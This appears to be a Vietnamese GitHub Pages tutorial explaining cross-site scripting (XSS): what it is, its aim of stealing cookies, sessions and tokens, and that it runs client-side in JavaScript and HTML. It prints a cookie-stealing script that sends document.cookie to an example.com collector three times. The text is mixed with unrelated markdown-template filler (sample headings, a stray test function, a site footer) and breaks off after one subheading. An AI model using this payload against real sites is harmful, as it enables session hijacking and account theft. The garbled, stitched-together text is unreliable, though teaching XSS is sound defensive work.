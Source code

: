 # The largest heading
## The second largest heading
###### The smallest heading
![image](https://user-images.githubusercontent.com/54978467/134615358-41820711-e2dc-4506-9f6a-d4537bd74352.png)

**1. Cross-site scripting XSS là gì?**
> Cross-site scripting (a.k.a XSS) là một lỗ hổng bảo mật web phổ biến và dễ bị tấn công nhất cho phép kẻ tấn công thực thi script trên Client.
Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.

Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như:

```<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>```

cookies

`session`

token

các thông tin khác....
Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác.

Như chúng ta biết, cookie giúp ta đăng nhập tự động.
(https://www.root-me.org/en/Challenges/Web-Client/)
This site was built using [GitHub Pages](https://www.root-me.org/en/Challenges/Web-Client).


Do đó khi cookie bị đánh cắp, ta có thể đăng nhập bằng các thông tin nhận dạng khác.

Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.

Tấn công XSS đang được thực hiện ở phía client.

Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau.

Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.

```
function test() {
  console.log("notice the blank line before this function?");
}
```

2. XSS được thực hiện như thế nào?
Tấn công XSS là gửi và chèn script độc hại, những mã độc này được viết bằng các ngôn ngữ ở client như Javascript, HTML, CSS VBScript,... Tuy nhiên phổ biến nhất là Javascript và HTML. Có rất nhiều các thức để thực hiện cuộc tấn công này, phụ thuộc vào nhiều trường hợp khác nhau.

a. Nguyên nhân
[<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>]

./ <script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script> ./
